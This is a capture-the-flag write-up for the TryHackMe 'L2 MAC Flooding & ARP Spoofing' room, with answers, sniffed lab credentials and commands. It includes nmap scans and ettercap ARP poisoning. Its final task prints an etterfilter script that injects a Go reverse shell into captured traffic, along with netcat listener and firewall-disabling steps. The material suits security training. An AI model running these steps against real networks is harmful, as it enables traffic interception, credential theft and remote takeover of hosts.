







# L2-MAC-Flooding-ARP-Spoofing
 <b> Tryhackme  L2 MAC Flooding &amp; ARP Spoofing writeup </b>
  
 <b> TASK 2 </b>  
  <b> Note The admin user is in the sudo group. I suggest using the root user to complete this room  
      sudo su (password : Layer2)</b> 
  
  Q.1    Now, can you (re)gain access?(Yay/Nay). 
  Ans.   Yea  
  <b>TASK 3 </b> 
  Q. 1 What is your IP address?  
  <b>  ip address show eth1 </b> 
  Ans. 192.168.12.66  
   
  Q. 2 What's the network's CIDR prefix?  
  Ans. /24   
  Q. 4 How many other live hosts are there?  
  <b>  nmap -sn 192.168.12.66/24 </b>  
  Ans. 2  
  Q. 5 What's the hostname of the first host (lowest IP address) you've found?  
  Ans. alice  
   <b>TASK 4 </b>  
  Q. 1 Can you see any traffic from those hosts? (Yay/Nay)  
  Ans. yea  
  Q. 2 Who keeps sending packets to eve?  
  Ans. bob  
  Q. 3 What type of packets are sent?  
  Ans. icmp  
    <b>hint</b> for Q 3 & 4 see fig  
     
  Q. 4 What's the size of their data section? (bytes)  
  Ans. 666  
   <b> TASK 5 </b> 
  Q. 1 What kind of packets is Alice continuously sending to Bob?   
  Ans. icmp  
  Q. 2 What's the size of their data section? (bytes)  
  Ans. 1337           (same as Q 3 & 4 in task 4)  
  <b>Task 6 </b> 
  Q.1 Can ettercap establish a MITM in between Alice and Bob? (Yay/Nay)  
  Ans. nay  
  Q. 2 Would you expect a different result when attacking hosts without ARP packet validation enabled? (Yay/Na 
  Ans. yay  
   <b> TASk 7</b>  
    <b> Note : Use root user  
       sudo su   (password : Layer2) </b> 
   Q. 1 Scan the network on eth1. Who's there? Enter their IP addresses in ascending order.  
   <b>nmap 192.168.12.0/24</b> 
   Ans. 192.168.12.10, 192.168.12.20  
     
   Q. 2 Which machine has an open well-known port?  
   Ans. 192.168.12.20  
   Q. 3 What is the port number?  
   Ans. 80  
   Q. 4 Can you access the content behind the service from your current position? (Nay/Yay)  
   Ans. Nay  
   Q. 5 Can you see any meaningful traffic to or from that port passively sniffing on you interface eth1? (Nay/Yay)  
   Ans. Nay  
   Q. 6 Now launch the same ARP spoofing attack as in the previous task. Can you see some interesting traffic, now? (Nay/Yay)  
   Ans. Yay  
     To launch arp attack<b> ettercap -T -i eth1 -M arp</b> 
     ettercap -T -i eth1 -M arp > myarp.txt  (read carefully Q 7,89,11,17 Ans found in myarp.txt) 
   Q. 7 Who is using that service?  
   Ans. alice  
   Q. 8 What's the hostname the requests are sent to?  
   Ans www.server.bob  
    
   Q. 9 Which file is being requested?  
   Ans. test.txt  
   Q. 10 What text is in the file? 
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/test.txt</b> 
   Ans ok  
     
   Q. 11 Which credentials are being used for authentication? (username:password)  
   Ans. admin:s3cr3t_P4zz  
   Q. 12 Now, stop the attack (by pressing q). What is ettercap doing in order to leave its man-in-the-middle position gracefully and undo the poisoning?  
   Ans. RE-ARPing the victims  
   Q. 13 Can you access the content behind that service, now, using the obtained credentials? (Nay/Yay)  
   Ans. Yay  
   Q. 14 What is the user.txt flag?  
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/user.txt </b> 
   Ans. THM{..........}   
   Q. 15 You should also have seen some  rather questionable kind of traffic. What kind of remote access (shell) does Alice have on the server?  
   Ans. reverse shell  
   Q. 16 What commands are being executed? Answer in the order they are being executed. 
   Ans. whoami, pwd, ls  
    
   Q.17 Which of the listed files do you want?  
   Ans. root.txt  
    
   <b>TASK 8 </b>  
   Q. 1 What is the root.txt flag?  
   Ans.  THM{........}    
    <b> Read carefully each and every line in Task 8 module L2 MAC Flooding & ARP Spoofing on tryhackme</b> 
    <b>Follow steps to find root flag</b> 
    hint: follow these steps on ssh machine not on your local machine 
     step 1. copy and save in a whoami.ecf file    
     note: if this payload not work download whoami.ecf file from repo <a href="whoami.ecf">Download</a> 
     <b> 
   if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );
    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");
}
    </b> 
    
 
 step 2. compile source code with etterfilter 
  <b>etterfilter whoami.ecf -o whoami.ef</b> 
  step 3. Disable firewall  
    <b>sudo ufw disable  (password: Layer2)</b> 
  step 4. open one another ssh session and start netcat listener 
  hint: use same port in source code and netcat listener 
  <b>nc -nvlp 6666 & </b> 
  step 5. Run ettercap  
  <b>sudo ettercap -T -i eth1 -M arp -F whoami.ef </b>  
  A few seconds after executing this command, you should see  "Connection received on 192.168.12.20 " on netcat listerer 
  step 6. on netcat listener type "fg" to foreground listener 
  
  Enjoy reverse shell
  
   
  
      
      
      
      
      
      Thank you 
      this is my first writeup, if i made any mistake foregive me.
      if you have any questions connect with me on LinkedIn.(use tryhackme to get my LinkedIn Id).
      
      
      Ajeet Kumar
   
   
